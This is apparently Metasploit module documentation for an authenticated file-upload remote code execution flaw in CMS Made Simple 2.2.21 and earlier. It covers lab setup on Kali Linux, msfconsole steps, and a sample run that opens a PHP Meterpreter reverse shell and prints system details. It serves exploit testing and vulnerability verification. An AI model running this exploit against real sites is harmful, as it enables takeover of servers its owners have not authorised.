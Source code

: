 ## Vulnerable Application

CMS Made Simple <= v2.2.21 allows an authenticated administrator to upload files
with the `.phar` or `.phtml` extensions, enabling execution of PHP code
leading to RCE. The file can be executed by accessing its URL in the
`/uploads/` directory.

## Installation

### Kali Linux 2024.3

Install PHP dependencies:
```
sudo apt install -y php-gd php-mbstring php-intl php-xml php-curl php-zip php-mysql mariadb-server mariadb-client apache2 libapache2-mod-php8.4 unzip wget 
```

Start mariadb and apache:
```
sudo systemctl start apache2
sudo systemctl start mariadb
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `cmsms`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'msfpass';
CREATE DATABASE cmsms;
GRANT ALL PRIVILEGES on cmsms.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download CMSMadeSimple, extract it and move it to `/var/www/html`:
```
wget https://s3.amazonaws.com/cmsms/downloads/15179/cmsms-2.2.21-install.zip
unzip cmsms-2.2.21-install.zip                
sudo mv cmsms-2.2.21-install.php /var/www/html
rm /var/www/html/index.html
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

The application should be now available at `http://localhost/cmsms-2.2.21-install.php/`,
navigate there in a browser to complete the setup wizard.
On the tests page, `Testing if we can change INI settings` warning can be ignored.
It will ask you for the database credentials created above, input them and enter `cmsms` for database name.

Once complete, go to `http://localhost/admin/login.php`, you should see an admin login panel.

## Verification Steps

1. Install CMSMadeSimple
2. Start msfconsole
3. Do: `use exploit/multi/http/cmsms_file_manager_auth_rce`
4. Do: `set RHOST [IP]`
5. Do: `set username [username]`
6. Do: `set password [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The username for the CMSMS admin panel. Default is empty string

### PASSWORD
The password for the CMSMS admin panel. Default is empty string

## Scenarios

### CMSMadeSimple v2.2.21 on Kali Linux 2024.3

```
msf > use exploit/multi/http/cmsms_file_manager_auth_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(multi/http/cmsms_file_manager_auth_rce) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(multi/http/cmsms_file_manager_auth_rce) > set username admin
username => admin
msf exploit(multi/http/cmsms_file_manager_auth_rce) > set password password
password => password
msf exploit(multi/http/cmsms_file_manager_auth_rce) > run
[*] Started reverse TCP handler on 192.168.232.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (40004 bytes) to 192.168.232.128
[*] Meterpreter session 1 opened (192.168.232.128:4444 -> 192.168.232.128:42794) at 2025-03-22 02:53:16 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
Meterpreter : php/linux
meterpreter >
```
